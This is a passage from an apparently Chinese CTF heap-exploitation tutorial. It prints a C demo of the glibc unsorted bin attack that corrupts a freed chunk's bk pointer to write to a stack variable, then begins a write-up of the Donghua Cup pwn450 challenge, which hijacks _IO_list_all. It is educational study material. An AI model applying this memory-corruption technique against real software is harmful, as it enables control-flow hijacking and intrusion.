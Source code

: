 

```
#include &lt;stdio.h&gt;
  #include &lt;stdlib.h&gt;
   
  int main()`{`
         printf("This file demonstrates unsorted bin attack by write a large unsigned long value into stackn");
         printf("In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
                   "global variable global_max_fast in libc for further fastbin attacknn");
   
         unsigned long stack_var=0;
          printf("Let's first look at the target we want to rewrite on stack:n");
          printf("%p: %ldnn", &amp;stack_var, stack_var);
  
          unsigned long *p=malloc(400);
          printf("Now, we allocate first normal chunk on the heap at: %pn",p);
          printf("And allocate another normal chunk in order to avoid consolidating the top chunk with"
              "the first one during the free()nn");
          malloc(500);
  
          free(p);
          printf("We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
                    "point to %pn",(void*)p[1]);
   
          //------------VULNERABILITY-----------
    
          p[1]=(unsigned long)(&amp;stack_var-2);
          printf("Now emulating a vulnerability that can overwrite the victim-&gt;bk pointern");
          printf("And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%pnn",(void*)p[1]);
    
          //------------------------------------
   
          malloc(400);
          printf("Let's malloc again to get the chunk we just free. During this time, target should has already been "
                    "rewrite:n");
          printf("%p: %pn", &amp;stack_var, (void*)stack_var);
   `}`
```

它的注释已经写的很清楚了，我就不再解释了。

 

**三、东华杯的pwn450**

这道题主要是利用 unsorted bin attack 来覆写_IO_list_all 指针，伪造_IO_FILE对象，达到劫持控制流的目的。下面一步一步介绍。先介绍程序的功能

[![](https://p4.ssl.qhimg.com/t01bc4347d1f635a099.png)](https://p4.ssl.qhimg.com/t01bc4347d1f635a099.png)
